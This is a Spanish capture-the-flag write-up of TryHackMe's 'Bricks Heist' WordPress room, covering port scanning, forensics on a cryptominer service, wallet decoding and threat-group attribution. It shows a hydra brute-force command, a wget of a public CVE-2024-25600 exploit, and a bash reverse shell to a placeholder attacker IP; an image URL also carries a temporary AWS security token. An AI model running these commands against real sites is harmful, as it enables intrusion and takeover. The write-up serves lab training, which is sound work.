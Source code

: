 ```yaml
---
title: "asfasf"
platform: "HTB"
publishedAt: 2025-05-29
cover: "/images/ctf/fwffwf.webp"
---
```


![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/5e19dbac-6f69-4b8e-8f73-8ef638bf2a2c/70123b93-0939-4cd0-9045-f0807bf65e77/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB466637HWYPP%2F20250511%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250511T034511Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEAsaCXVzLXdlc3QtMiJHMEUCIQCSlCieOfd%2F3Mn7ypc9nmeerRe4OEjN8AEzRJj95lPkFgIgMmryOtJVACIxIcvZYwax4VyiSRTfCwxMrR5XqtWayxkqiAQItP%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDNLWgiGnP1GWFnfnwyrcAxH3x1um6Yp5fuQrSc7jadA2NUuy98l0PB%2FyNTjs8LPDdVRObw9gjtLrocGR0maB%2BOdc3Du3Vf5NUwhUwjFscqHgCTrDnSn%2FI75hsLxCVaDB1Y%2FOTvFMLAIUz1nCD7Shk08pJUr97hqAGILUKIgID%2BSKoC2bckJZ3Hwfy%2FoQQOMer9rlxEvgQyucuMbGzylBBOJEfNPfI96J5r1JgrxmsnQDsVyUejddexXtdIVbqaWBtCsUAPbXYAIkXLWYfN5ncvWJqRJfFpsIsfiAUX2L3bCFrswOK3p2e2%2BzBVBRxoAE%2FtJl7z2mNzxJkEvOoE7u1X0irQSrD6%2Fd0npPCREb45TT2wO0qHcVphkrq0vVxLR831VwGs8Y%2B4OuP75Jdb3ehs9mSWM6dlg37%2FWWO0IeAAe%2FDKNCXtHn6XvGEzd15sGMq4Go224O7jEPnPaWNPR0sBObPSLdEKRW17PYIzEHSDVGS5i%2BuGfBM44o%2BAeIBDON22ol1UducIjN7ku5Fzi8rzN9c0bmNFgFWLWbW%2BcTODj2Wp4JYxAE1Uu9JqrlRwbo8%2BOgb6ZyEm6HgruQkCON6so2vEyvuHctRldE5zJYMOH9MdapWXSuzyta5tPIHgrZ0DSTifgopZAAY5HIMO2cgMEGOqUBFChiiuc%2BHTyz7eh17Xw4fNQy3TIKGd0lpVhQag0Q8HmURQnGaccVP3XZPI8iBQTdIq%2Fad9zB2kj7ayx292lUkkXfqLxUzp6czKNQho%2BUZ9R5MJ5jPOyd3sT09Fu8ObUtRjoKCRtJ%2Bm%2Bv%2FeX1GJGD1rbYtevx5v3LKeZJI6tEx2%2B7u78CGe%2FO9KDhSTr%2FrgdLcccIxtd6Sw2HxnPgMQRLeqRIBFps&X-Amz-Signature=19c95a51d858f95bbaa9e90bb98440e021fa2010251a57c49f0361d66e5e4258&X-Amz-SignedHeaders=host&x-id=GetObject)


# 🧱 Bricks Heist – TryHackMe (Write-up)


[embed]()


## 🕵️ Introducción


Un sitio web WordPress fue comprometido. Nuestra misión: identificar el punto de entrada, recuperar acceso como administrador, detectar actividad maliciosa (minería), y rastrear al grupo de amenazas involucrado.


---


## 🔍 1. Escaneo inicial


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Servicios expuestos:

- 22: SSH
- 80: WebSockify (error 405)
- 443: WordPress 6.5
- 3306: MySQL (sin acceso)

---


## 🧱 2. Enumeración de WordPress

- Se detecta **tema activo: Bricks**
- Vulnerabilidad conocida: **CVE-2024-25600**
- Exploit público descargado desde GitHub

---


## 🔓 3. Acceso administrativo


Se obtuvo login con `administrator`, mediante fuerza bruta con `hydra`:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💣 4. Exploiting CVE-2024-25600


Se usó el script:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Ejemplo:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py \
  --url https://bricks.thm \
  --username administrator \
  --password TU_PASS \
  --cmd "bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'"
```


Se obtuvo **shell interactiva**.


---


## 🐚 5. Post-explotación


### Flag encontrada:


```plain text
css
CopyEdit
/var/www/html/650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 6. Proceso y servicio sospechoso


### Proceso:


```plain text
pgsql
CopyEdit
nm-inet-dialog
```


### Servicio malicioso:


```plain text
CopyEdit
ubuntu.service - TRYHACK3M
```


Verificado vía:


```shell
bash
CopyEdit
systemctl status ubuntu.service
```


---


## 📄 7. Log del miner


Log activo ubicado en:


```plain text
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


📌 **Respuesta (formato** **`xxxx.xxxx`****)**:


```plain text
pgsql
CopyEdit
inet.conf
```


---


## 💰 8. Wallet del miner


Del archivo `inet.conf`:


```plain text
text
CopyEdit
ID: WW1NeGNY...
```


Base64 → doble decode → wallet final:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


---


## 🕵️‍♂️ 9. Threat group


Wallet está asociada con el grupo de ransomware:


**LockBit**


(Confirmado por búsquedas OSINT y análisis de blockchain)


---


## ✅ Conclusión


Este CTF fue un excelente caso realista que combinó:

- Enumeración
- Explotación de CVE
- Análisis forense de logs y procesos
- Técnicas OSINT

Una gran práctica para pentesters y analistas de amenazas.

